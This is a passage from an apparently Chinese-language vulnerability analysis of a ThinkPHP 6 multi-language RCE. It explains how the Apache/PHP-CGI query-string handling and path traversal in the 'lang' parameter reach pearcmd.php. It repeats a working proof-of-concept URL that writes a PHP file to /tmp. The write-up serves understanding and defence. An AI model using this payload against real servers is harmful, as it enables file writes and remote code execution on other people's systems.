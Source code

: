 实际上并不仅限于 cgi 文件，从 [RFC3875](http://www.ietf.org/rfc/rfc3875) 描述中可知，Apache 其实并不会考虑后缀，只要符合 GET 和不包含没有解码的=号参数的情况就会作为命令行参数进行参数传入。

那么加上 lang 参数后（这里显式的写了 index.php，上文是隐式访问了 index.php，但具体访问哪个 PHP 文件并无关系我们只需要 ThinkPHP 框架的全局参数 lang 来包含 pearcmd 即可）：

`http://127.0.0.1/public/index.php?+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`

这里的`querystring`=`+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`

这一长串输入都是 querystring， `+config-create+` 和 `+/tmp/hello.php` 的 `+` 符号可以视为空格的替代。

由于 Apache 把整个`querystring`=`+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`都作为 cgi 的命令行参数传入 php。

且含有参数 lang，所以 PHP 处理中也会触发 LFI 漏洞，相当于`?lang=../../../../../../../../usr/local/lib/php/pearcmd` 被触发了。

随后根据上下文，`querystring` 作为 cgi 的命令行参数传入到被包含的 pearcmd 中。**（对更详细的处理过程感兴趣的可以参看我写的另一篇《浅谈 Apache/Nginx 与 PHP-CGI 之间的关系》）**

理想情况下等价于<=>

`bash# PHP /usr/local/lib/php/pearcmd.php  config-create /<?=phpinfo()?> /tmp/hello.php `  

中间的空格刚刚好是对应三个 `+` ，执行效果也就是在指定路径的创建指定文件内容。

但还记得我们刚刚说的吗？

ppqq 这里的`querystring`=`+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`
这一长串输入都是 querystring，`+config-create+`和`+/tmp/hello.php`的`+`符号可以视为空格的替代。

所以最终等价于<=>

`bash# PHP /usr/local/lib/php/pearcmd.php  config-create /&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?> /tmp/hello.php `  

通过以上几点就不难理解为什么 payload 中的参数与下图我们平时理解的 URL 有一些不同。

![URI_syntax_diagram.svg](tp6多语言模块RCE漏洞利用分析.assets/URI_syntax_diagram.svg.png)



---

这里我们顺理成章的使用 poc 请求：

`http://127.0.0.1/public/index.php?+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`
